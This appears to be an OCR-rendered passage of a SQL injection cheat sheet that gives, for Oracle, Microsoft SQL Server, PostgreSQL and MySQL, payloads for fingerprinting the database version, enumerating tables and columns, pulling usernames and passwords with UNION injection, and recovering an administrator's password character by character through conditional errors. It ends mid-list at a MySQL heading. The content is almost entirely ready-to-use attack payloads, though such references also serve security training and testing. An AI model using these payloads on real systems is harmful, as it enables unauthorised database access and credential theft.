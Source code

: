 PostgreSQL

`SELECT version()`

MySQL

`SELECT @@version`

## Database contents

You can list the tables that exist in the database, and the columns that those tables contain.

Oracle

`SELECT * FROM all_tables   SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'`

Microsoft

`SELECT * FROM information_schema.tables   SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'   `

PostgreSQL

`SELECT * FROM information_schema.tables `
`SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'  `
`UNION SELECT username || '-' || password FROM users`

MySQL

`SELECT * FROM information_schema.tables   SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'   `
`UNION SELECT NULL,username || '-' || password FROM users--`

## Conditional errors

You can test a single boolean condition and trigger a database error if the condition is true.

Oracle

`||SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual||`

`||SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE '' END FROM dual||`

`||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||`

`||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||`

`||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||`

Microsoft

`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END`

PostgreSQL

`1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN CAST(1/0 AS INTEGER) ELSE NULL END)`

MySQL
